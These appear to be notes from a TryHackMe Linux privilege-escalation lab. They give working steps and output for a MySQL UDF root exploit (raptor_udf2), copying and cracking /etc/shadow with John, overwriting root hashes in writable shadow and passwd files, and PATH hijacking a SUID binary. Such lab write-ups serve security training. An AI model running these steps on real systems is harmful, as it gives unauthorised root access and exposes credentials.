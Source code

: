 # Overview
https://tryhackme.com/room/linuxprivesc

```
export IP=10.10.191.59
```
# [Service Exploits](setuid-exploit)
The MySQL service is running as root and the "root" user for the service does not have a password assigned.
We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands
as root via the MySQL service.

1. Change into the /home/user/tools/mysql-udf directory:
```
cd /home/user/tools/mysql-udf
```
1. Compile the raptor\_udf2.c exploit code using the following commands:
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
1. Connect to the MySQL service as the root user with a blank password:
```
mysql -u root
```
1. Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
1. Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
1. Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
1. Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```

# John
```
scp user@$IP:/etc/shadow hash.txt
vagrant@ubuntu1804:~/repos/ctfs/thm/linux-priv-esc$ /opt/john/run/john --wordlist=/opt/wordlists/rockyou.txt root.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:00 DONE (2020-12-15 02:20) 2.083g/s 3200p/s 3200c/s 3200C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# /etc/shadow hash is editable
```
user@debian:~/tools/mysql-udf$ mkpasswd -m sha-512 newpasswordhere
$6$zcsibADe2$5JBJvfuuLdM2/0ggQxfpWwpQ0S/0vcx2.eoUTNKbBM.MncgN3e12fQUMRMbT9Sukpe04R3bviwfMvgJ5Nh6L0/
```
Paste that output into the root user hash field

# /etc/passwd hash is editable
```
root@debian:/home/user/tools/mysql-udf# ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
root@debian:/home/user/tools/mysql-udf# openssl passwd newpasswordhere
Warning: truncating password to 8 characters
LHD3iy7IoLObw
```
Replace the 'x' in the root line

# ENV Vars
```
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
user@debian:~$ mv jake service
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~#
root@debian:~# whoami
root
root@debian:~# ls
```

We can see that it uses several apps as root. Let's make our own binary called `service`

```
cat service
#!/bin/bash
/bin/bash -p
```

Now let's set our path and run our exe:
```
PATH=.:$PATH /usr/local/bin/suid-env
```
